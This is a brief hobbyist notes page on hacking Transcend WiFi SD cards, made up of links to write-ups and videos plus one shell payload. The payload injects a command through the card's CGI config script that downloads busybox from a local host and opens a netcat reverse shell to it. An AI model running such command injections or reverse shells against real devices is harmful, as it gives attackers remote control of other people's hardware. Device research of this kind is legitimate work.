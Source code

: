 ```yaml
---
title: Transcend WiFi SD
---
```


* http://haxit.blogspot.ch/2013/08/hacking-transcend-wifi-sd-cards.html
* http://192.168.11.254/cgi-bin/kcard_edit_config_insup.pl
* http://dmitry.gr/index.php?r=05.Projects&proj=15.%20Transcend%20WiFiSD

<code bash>
admin; wget http://192.168.11.11/busybox-armv5l; chmod a+x /www/cgi-bin/busybox-armv5l; /www/cgi-bin/busybox-armv5l nc 192.168.11.11 1337 -e /bin/bash #
```

==Transcend WiFi in combi met AVR==
* https://www.youtube.com/watch?annotation_id=annotation_1323056153&feature=iv&src_vid=HT4W3CPlnAU&v=-Z9TrZQw16s
* https://www.youtube.com/watch?v=HT4W3CPlnAU
